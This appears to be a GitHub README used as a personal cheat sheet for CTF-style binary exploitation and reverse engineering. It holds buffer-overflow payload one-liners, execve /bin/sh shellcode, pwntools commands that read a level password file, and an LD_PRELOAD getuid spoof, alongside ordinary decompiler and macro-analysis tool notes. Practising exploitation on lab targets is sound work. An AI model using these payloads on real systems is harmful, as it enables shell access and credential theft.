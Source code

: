 <img height="100px" src="https://user-images.githubusercontent.com/28403617/172731874-c08c9da6-bac7-4836-b8bc-3744087d30a3.svg#gh-light-mode-only" />
<img height="100px" src="https://user-images.githubusercontent.com/28403617/172731902-a0475209-6730-4a90-996f-f7688d49506e.svg#gh-dark-mode-only" />

---

- [Binary ninja](#binary-ninja)
- [Decompile Python Executable](#decompile-python-executable)
- [GCC](#gcc)
- [Lib Injection](#lib-injection)
- [Macro Office PPTM](#macro-office-pptm)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

# Overflow
### Basic
```bash
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```bash
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

# Shellcode
### Cat
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

# GCC
### Get env address
```
x/10s **(char***)&environ
```
## Peda
### Install
```bash
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

# Binary ninja
### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

# Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```bash
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```bash
LD_PRELOAD=./libnike.so ./exec
```

# Decompile Python Executable
Convert executable into .pyc
```bash
git clone https://github.com/extremecoders-re/pyinstxtractor
cd pyinstxtractor
python3 pyinstxtractor.py exec
```

Disassembly .pyc (compatible python 3.9.2)
```bash
git clone https://github.com/zrax/pycdc
cd pycdc
cmake
make
./pycdc file.pyc # Convert .pyc into .py
./pycdas file.pyc # Convert .pyc into byte-code disassembly
```

# Macro Office PPTM
### Install
```bash
sudo pip3 install oletools
```

### Decompress PPTM
```bash
olevba  -c file.pptm
```
